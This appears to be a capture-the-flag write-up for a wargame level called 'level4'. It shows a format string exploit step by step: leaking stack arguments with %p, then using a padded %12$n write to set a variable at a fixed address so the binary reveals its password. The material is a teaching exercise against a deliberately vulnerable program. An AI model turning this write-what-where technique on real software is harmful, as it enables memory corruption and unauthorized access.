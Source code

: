 # Level 4

## Initial Context

- One file: `level4`

## Solving the Challenge

Its the same challenge as `level3`, but using the 12th argument instead.

The `m` variable is at `0x08049810` (or `10 98 04 08` in LE).

```bash
$ python -c 'print "\x10\x98\x04\x08" + "%p " * 13' | ./level4
?? 0x 0x 0x 0x 0x 0x 0x 0x 0x 0x 0x 0x8049810 0x
#                                   ^ bingo
```

The value that `m` must be equals to is `0x1025544` or `16930116`.

Since the program only reads `512 bytes`, we need to use `printf`'s identifiers' minimum field width:

```python
# address
"\x10\x98\x04\x08"

# padding to produce 16930116 characters
+ "%16930112x"

# write using %n, at the forth argument using $4
+ "%12$n"
```

The program will `cat` the password for us, so no need to save the payload into a file, we can send it directly to the vulnerable program:

```bash
python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"' | ./level4
...b7ff26b0
<flag>
```
